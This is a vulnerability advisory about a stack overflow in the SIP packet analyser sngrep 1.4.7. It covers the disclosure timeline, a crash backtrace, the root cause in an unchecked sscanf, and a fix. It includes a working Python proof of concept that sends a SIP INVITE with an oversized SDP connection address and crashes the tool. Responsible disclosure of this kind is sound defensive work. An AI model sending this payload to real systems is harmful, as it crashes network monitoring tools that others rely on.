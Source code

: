 # sngrep crashes due to a stack overflow caused by a malformed SDP connection address

- Fixed versions: 1.4.8
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-04-sngrep-malformed-connection-address>
- Tested vulnerable versions: 1.4.7
- Timeline:
    - Report date: 2020-09-16
    - sngrep confirmed issue + patch: 2020-09-16
    - sngrep release with fix: 2020-11-10
    - Enable Security advisory: 2020-11-20

## Description

When sending a specially crafted SIP message with a malformed SDP connection address, `sngrep` crashes due to a stack overflow. The following backtrace was generated during our tests:

```
(gdb) bt
#0  __GI_raise (sig=sig@entry=6)
    at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff7ced859 in __GI_abort () at abort.c:79
#2  0x00007ffff7d583ee in __libc_message (
    action=action@entry=do_abort, 
    fmt=fmt@entry=0x7ffff7e8207c "*** %s ***: terminated\n")
    at ../sysdeps/posix/libc_fatal.c:155
#3  0x00007ffff7dfa9ba in __GI___fortify_fail (
    msg=msg@entry=0x7ffff7e82064 "stack smashing detected")
    at fortify_fail.c:26
#4  0x00007ffff7dfa986 in __stack_chk_fail () at stack_chk_fail.c:24
#5  0x0000555555560651 in sip_parse_msg_media (msg=0x7ffff0046c60, 
    payload=<optimized out>) at sip.c:740
#6  0x3131313131313131 in ?? ()
#7  0x3131313131313131 in ?? ()
```

The issue was originally discovered during [OpenSIPIt](https://opensipit.org/); tracked down and analyzed for severity and impact later.

## Impact

Since most modern build systems will automatically include run-time best practice checks, it is highly unlikely that this stack overflow issue is exploited. However, due to how fortify protection works, the program will still end up crashing. Nonetheless, this issue should not be dismissed by relying on build system protections and should be adequately fixed.

## How to reproduce the issue

1. Run `sngrep`
1. Execute the following python program:

```python
import socket

sdp="v=0\r\n" + \
    "o=- 1600157102 1600157102 IN IP4 127.0.0.1\r\n" + \
    "s=-\r\n" + \
    "c=IN IP4 127.0.0.1%s\r\n" % ('1' * 512) + \
    "t=0 0\r\n" + \
    "m=audio 9999 RTP/AVP 8 0 96 101\r\n" + \
    "a=rtpmap:8 PCMA/8000/1\r\n" + \
    "a=rtpmap:0 PCMU/8000/1\r\n" + \
    "a=rtpmap:96 opus/96000/2\r\n" + \
    "a=rtpmap:101 telephone-event/8000/1\r\n" + \
    "a=sendrecv"

sip_msg="INVITE sip:bob_1@127.0.0.1:5060 SIP/2.0\r\n" + \
    "Via: SIP/2.0/UDP 127.0.0.1:40111;rport;branch=z9hG4bK-a\r\n" + \
    "Max-Forwards: 70\r\n" + \
    "From: <sip:bob_1@127.0.0.1:5060>;tag=3Ewqeuo81F1Hjvtg\r\n" + \
    "To: <sip:bob_1@127.0.0.1:5060>\r\n" + \
    "Call-ID: maooZ4nDzmArTBkT\r\n" + \
    "CSeq: 1020 INVITE\r\n" + \
    "Contact: <sip:bob_1@127.0.0.1:40111;transport=udp>\r\n" + \
    "Content-Length: %i\r\n" % len(sdp) + \
    "Content-Type: application/sdp\r\n" + \
    "\r\n" + \
    sdp

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(sip_msg.encode(), ("127.0.0.1", 5060))
```
1. Notice that `sngrep` has crashed

## Solutions and recommendations

The issue arises due to the use of `sscanf` on line 716. The length of `dst.ip` is 16, so, `sscanf` will overwrite any adjacent memory. It is recommended that the IP is first parsed, its length validated and then, if valid, the value of `dst.ip` is set.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

